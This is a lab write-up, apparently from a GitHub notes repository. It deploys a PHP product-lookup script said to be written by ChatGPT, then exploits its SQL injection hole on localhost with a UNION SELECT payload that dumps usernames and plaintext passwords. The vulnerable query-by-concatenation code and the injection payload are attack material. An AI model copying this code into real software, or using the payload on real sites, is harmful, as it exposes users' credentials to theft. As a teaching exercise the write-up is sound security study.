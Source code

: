 ```php
<?php

// Set up database connection
$servername = "localhost";
$username = "yourusername";
$password = "yourpassword";
$dbname = "yourdatabase";
$conn = mysqli_connect($servername, $username, $password, $dbname);

// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}

// Get ID from input (assuming it's passed in as a GET parameter called "id")
$id = $_GET["id"];

// Query the database to get the product with the specified ID
$sql = "SELECT * FROM products WHERE id = $id";
$result = mysqli_query($conn, $sql);

// Check if any rows were returned
if (mysqli_num_rows($result) > 0) {
    // Loop through the rows and display the product info
    while ($row = mysqli_fetch_assoc($result)) {
        echo "ID: " . $row["id"] . "<br>";
        echo "Name: " . $row["name"] . "<br>";
        echo "Price: $" . $row["price"] . "<br>";
        echo "Description: " . $row["description"] . "<br>";
        // Add any other fields you want to display here
    }
} else {
    echo "No product found with ID " . $id;
}

// Close database connection
mysqli_close($conn);

?>
```
 sets up a database connection using the `mysqli_connect` function, which takes four parameters: the server name, the username, the password, and the database name. If the connection fails, the script exits with an error message using the `die` function.
 
 then gets the `ID` value from the user input, assuming it is passed in as a `GET` parameter with the name "id". This value will be used to look up the corresponding product in the database.
 
 then it constructs an SQL query to select all columns from the "`products`" table where the "`id`" column matches the input `ID` value, using **string concatenation** to include the input value in the query. The query is then executed using the `mysqli_query` function, which returns a result set.
 
 if any rows were returned by the query using the `mysqli_num_rows` the code loops through each row using the `mysqli_fetch_assoc` function, which **returns the current row as an associative array.** The code then displays the product information by accessing the appropriate columns of the row array.

If no rows were returned by the query, the code displays an error message indicating that `no product was found with the input ID`

Finally, this code closes the database connection using the `mysqli_close` function to free up any resources used by the connection.

---------------------------------

deploy the code on your machine "switch to root":

```bash
cd /var/www/html
mkdir vulnChatGPT
cd vulnChatGPT
vim getprod.php
```
start working on your MySQL database:
```mysql
create database chatGPT;
use chatGPT;

create table products( 
  id INT AUTO_INCREMENT PRIMARY KEY, 
  name varchar(100),
  description varchar(100),
  price DECIMAL(10,2));
  
create table users( 
  id INT AUTO_INCREMENT PRIMARY KEY,
  name varchar(100),
  password varchar(100));

insert into products (name, description, price) VALUES 
  ('pasta', 'i like pasta', 5.33), 
  ('meth','i am the danger',2008), 
  ('cat', 'meow meow', 9.99);
  
insert into users (name, password) VALUES  
  ('hello','world!'), 
  ('wlater','white'), 
  ('meow','meow123'),
  ('admin','this.password.should.be.hashed.tho');
  
create user 'chatGPT'@'localhost' IDENTIFIED BY 'password';
GRANT select on chatGPT.* TO 'chatGPT'@'localhost';
FLUSH PRIVILEGES;

```

![image](https://user-images.githubusercontent.com/72671239/221114569-87149ce4-f79d-4470-afdf-83c9a90a21d8.png)

![image](https://user-images.githubusercontent.com/72671239/221114534-8dc2c2e7-36db-4b2d-96f3-47f7c8214ef7.png)

go to the source code and change the database variables

```php
// Set up database connection
$servername = "localhost";
$username = "chatGPT";
$password = "password";
$dbname = "chatGPT";
$conn = mysqli_connect($servername, $username, $password, $dbname);
```


then went to start the apache2 service:
```bash
sudo service apache2 start
```
i tried to connect to the apache2 using https://localhost/vulnChatGPT/  but I had the error "An error occurred during a connection to localhost. " you can view the problem reasons here [localhost connection errors](https://github.com/olaayman999/lerningNotes/blob/main/Exploiting%20ChatGPT%20Code/localhost-error.md) but for short it was solved by using http not https

visit http://localhost/vulnChatGPT/ and go to getprod.php
![image](https://user-images.githubusercontent.com/72671239/221116336-41846a0b-3c8e-414a-99f0-4f719db11bac.png)

don't forget that the code provide no user interface, thats why the getprod.php is a blank page, ut it is waiting for a id using get request in the url
![image](https://user-images.githubusercontent.com/72671239/221117565-08883a87-7b54-4c26-9e98-4328c759d0a8.png)

using the following url with payload "`7 union select null,null,name,password from users`"
http://localhost/vulnChatGPT/getProd.php/?id=7%20union%20select%20null,null,name,password%20from%20users
![image](https://user-images.githubusercontent.com/72671239/221118867-77ba129f-8f07-4c05-a069-d9ba39dd2d6e.png)

